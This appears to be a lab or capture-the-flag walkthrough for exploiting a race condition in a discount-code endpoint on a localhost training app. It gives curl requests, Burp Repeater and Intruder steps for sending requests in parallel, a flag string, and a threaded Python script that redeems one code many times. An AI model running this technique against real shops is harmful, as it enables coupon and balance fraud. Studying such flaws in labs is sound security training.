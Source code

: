**Exploitation Using Burp Suite:**

**Step 1: Understand the Vulnerability**
1. Server checks if discount code is valid (Time of Check)
2. **Delay exists here** - exploit window!
3. Server marks code as used (Time of Use)
4. In the delay window, send duplicate requests

**Step 2: Manual Testing**
```bash
# Get initial balance (should be $100)
curl "http://localhost:5000/api/vuln/race-condition"

# Try using code once (adds $50, balance = $150)
curl -X POST "http://localhost:5000/api/vuln/race-condition/apply-discount" \
  -H "Content-Type: application/json" \
  -d '{"discountCode":"SAVE50"}'
```

**Step 3: Race Condition Attack with Burp Suite**

**Using Burp Repeater (Group Send):**
1. Send discount request to Repeater
2. Right-click → Create tab group (add 20 copies)
3. Select all tabs → Send group in parallel
4. Watch multiple requests succeed before code is marked used
5. Balance increases beyond $150 (multiple $50 credits)
6. Flag: {RACE_CONDITION_EXPLOITED_MULTIPLE_USES}

**Using Burp Intruder:**
1. Send request to Intruder
2. Clear all payload positions (we're not fuzzing parameters)
3. Set attack type to "Sniper"
4. Payloads → Payload type: Null payloads
5. Generate 50 payloads
6. Resource Pool → Create new pool with 50 concurrent requests
7. Start attack
8. Multiple requests complete before validation locks the code

**Step 4: Python Script for Automated Exploitation**
```python
import requests
import threading

url = "http://localhost:5000/api/vuln/race-condition/apply-discount"
data = {"discountCode": "SAVE50"}

def exploit():
    response = requests.post(url, json=data)
    print(f"Response: {response.status_code} - {response.json()}")

# Launch 20 parallel requests
threads = []
for i in range(20):
    t = threading.Thread(target=exploit)
    threads.append(t)
    t.start()

# Wait for all to complete
for t in threads:
    t.join()

print("Race condition attack complete!")
```
